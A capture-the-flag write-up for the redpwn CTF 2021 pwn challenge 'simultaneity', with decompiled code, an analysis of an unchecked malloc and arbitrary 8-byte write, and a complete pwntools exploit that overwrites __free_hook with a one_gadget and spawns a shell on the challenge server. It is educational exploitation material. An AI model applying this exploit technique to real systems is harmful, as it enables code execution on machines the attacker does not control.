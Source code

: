 # simultaneity

Category: Binary Exploitation

Source: redpwn CTF 2021

Author: asphyxia

Score: 15

## Description

Just an instant remains before the world comes to an end...

```
nc mc.ax 31547
```

## Downloads

[libc.so.6](https://static.redpwn.net/uploads/dedb887a5c49294ecd850d86728a0744c0e7ea780be8de2d4fc89f6948386937/libc.so.6)

[ld-linux-x86-64.so.2](https://static.redpwn.net/uploads/3e7cb1a5fa4d540f582dddfdb0c69958eca738ba8d60c0bbb6719f091192f33f/ld-linux-x86-64.so.2)

[simultaneity](https://static.redpwn.net/uploads/3057bc0e3ebd5efd6595e05ca53b66063095f106eeadfce0dd03ccc3429da746/simultaneity)

## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

All mitigations in place sans canary, perhaps a BOF challenge.

### Decompile with Ghidra

The program will allocate a user defined chuck of RAM, request an offset, and then write 8 bytes to that offset.

```
void main(void)
{
  long in_FS_OFFSET;
  size_t local_20;
  void *local_18;
  undefined8 local_10;
  
  local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  setvbuf(stdout,(char *)0x0,2,0);
  puts("how big?");
  __isoc99_scanf(&%ld,&local_20);
  local_18 = malloc(local_20);
  printf("you are here: %p\n",local_18);
  puts("how far?");
  __isoc99_scanf(&%ld,&local_20);
  puts("what?");
  __isoc99_scanf(&%zu,(void *)((long)local_18 + local_20 * 8));
  _exit(0);
}
```

That `_exit(0)` at the end basically takes care of any potential stack-based buffer overflow (the compiler new this, so no need for the canary).

The `malloc` return isn't being checked for NULL, so using a NULL pointer + the `how far?`; you have an 8-byte *write-what-where*, but where to write? Need a leak.

`malloc`, with a large size, but not so large to fail and return a NULL pointer, will allocate a chuck that is aligned with base of libc. This will provide a leak for the `what?` arbitrary 8-byte write. The natural target is anything ending in `_hook`.

We get one 8-byte write (`what?`) courteous of `scanf`, and that same `scanf` needs to trigger the hook. With only 8-bytes, *one_gadget* is the natural choice.

`scanf` and `printf` will call `malloc/free` with large inputs or output, e.g. with `printf` a `%65536c` format-string will trigger `malloc`, the analog for `scanf` in this challenge is to pad our `what?` with a lot of zeros. `scanf` will then call `malloc`, process our input, and write out our hook, then call `free`; naturally we'll use `__free_hook`.

## Exploit

```
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./simultaneity')

if args.REMOTE:
    p = remote('mc.ax', 31547)
    libc = ELF('./libc.so.6')
    libc.symbols['gadget'] = [0x4484f,0x448a3,0xe5456][1]
else:
    p = process(binary.path)
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

p.sendlineafter('big?\n','10000000')
p.recvuntil('here: ')
libc.address = int(p.recvline().strip(),16) + 10002416
log.info('libc.address: ' + hex(libc.address))
log.info('libc.sym.__free_hook: ' + hex(libc.sym.__free_hook))

p.sendlineafter('far?\n',str((libc.sym.__free_hook - libc.address + 10002416) // 8))
p.sendlineafter('what?\n',65536*'0' + str(libc.sym.gadget))
p.interactive()
```

To get the gadgets just run `one_gadget ./libc.so.6` and test each of them.

The `10002416` was just measured in gdb.

The `big?` `10000000` was lifted from another [writeup](https://faraz.faith/2019-10-27-backdoorctf-miscpwn/) xfactor sent to me.

Output:

```
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/redpwnctf2021/pwn/simultaneity/simultaneity'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to mc.ax on port 31547: Done
[*] '/pwd/datajerk/redpwnctf2021/pwn/simultaneity/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] libc.address: 0x7fe75f3dc000
[*] libc.sym.__free_hook: 0x7fe75f5998e8
[*] Switching to interactive mode
$ id
uid=1000 gid=1000 groups=1000
$ cat flag.txt
flag{sc4nf_i3_4_h34p_ch4l13ng3_TKRs8b1DRlN1hoLJ}
```

## Reference

Writeup from https://github.com/datajerk/ctf-write-ups/tree/master/redpwnctf2021/simultaneity